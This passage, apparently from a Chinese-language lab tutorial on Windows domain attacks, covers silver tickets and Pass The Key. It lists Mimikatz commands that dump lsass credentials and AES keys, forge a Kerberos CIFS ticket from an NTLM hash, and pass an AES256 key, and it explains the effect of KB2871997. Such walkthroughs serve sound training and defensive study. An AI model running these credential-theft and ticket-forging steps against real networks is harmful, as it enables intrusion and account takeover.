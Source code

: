  **特点：**

  * 不需要与KDC进行交互；需要server的NTLM hash。

    
    
    privilege::debug  
    sekurlsa::logonpasswords  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001725.png)

    
    
    kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089-1000 /target:owa.god.org /service:cifs /rc4:105c2352f5e8a768ca560cd1950f69b2 /user:liukaifeng01 /ptt  
    

rc4用域控的NTML Hash

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001726.png)

成功利用

## 0x04 Pass The Key

PTK是在域中攻击kerberos认证的一种方式，原理是通过获取用户的aes
hmac，通过kerberos认证，可在NTLM认证被禁止的情况下用来实现类似PTH的功能。

在 WinXP/2003/Vista/2008 ，以及未打 KB2871997 补丁之前（AES 不可用或不可替代）的 Win7/2008r2/8/2012
中强制使用 NTLM 哈希，AES 密钥只有在 8.1/2012r2 和打了 kb2871997 补丁的 7/2008r2/8/2012
中才可以替换，在这种情况下，你可以避免使用 NTLM 哈希。

KB2871997：禁止本地管理员账户用于远程连接，这样就无法以本地管理员用户的权限执行wmi、psexec、schtasks、at和访问文件共享。

这个补丁发布后常规的Pass The Hash已经无法成功，唯独默认的 Administrator (SID
500)账号例外，利用这个账号仍可以进行Pass The Hash远程连接，即使administrator修改了名字

但是还可以通过AES密钥来替代NTLM验证进行横向的操作，其实这个补丁挺鸡肋的，不用AES密钥照样也可以用NTLM，只是需要Administrator（SID
500），都拿到机器了，Administrator还不容易吗？这个补丁唯一的好处就是减少存储在内存中的凭据数据，也就是让wdigest协议认证的凭据不会存储在lsass.exe，这样子当你dump
lsass.exe的时候你就会发现，wdigest协议中的凭据你就看不到了

    
    
    privilege::debug  
    sekurlsa::ekeys  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001728.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001729.png)

利用Pass The Key

    
    
    privilege::debug  
    sekurlsa::pth /user:liukaifeng01 /domain:god.org /aes256:fd272d8259cd443bdf608f5c633ae8e3274ed8e4da3c5a04d9e2ce59807601c0  
    

如果测试失败就尝试安装KB2871997补丁

这里测试成功
